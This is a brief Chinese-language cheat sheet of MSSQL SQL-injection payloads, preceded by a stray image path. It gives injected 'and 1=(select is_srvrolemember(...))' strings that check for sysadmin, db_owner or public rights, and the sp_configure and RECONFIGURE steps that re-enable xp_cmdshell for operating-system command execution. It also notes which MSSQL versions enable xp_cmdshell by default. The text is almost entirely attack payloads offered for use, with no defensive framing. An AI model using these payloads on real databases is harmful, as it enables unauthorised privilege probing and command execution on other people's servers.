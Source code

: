 
### 　and 1=(select is_srvrolemember(‘sysadmin’)) //判断是否是系统管理员
### 　and 1=(select is_srvrolemember(‘db_owner’)) //判断是否是库权限
### and 1=(select is_srvrolemember(‘public’)) //判断是否为public权限


### EXEC sp_configure 'show advanced options',1//允许修改高级参数
### RECONFIGURE
### EXEC sp_configure 'xp_cmdshell',1  //打开xp_cmdshell扩展
### RECONFIGURE


#### xp_cmdshell默认在mssql2000中是开启的，在mssql2005之后的版本中则默认禁止。如果用户拥有管理员sa权限则可以用sp_configure重修开启它。
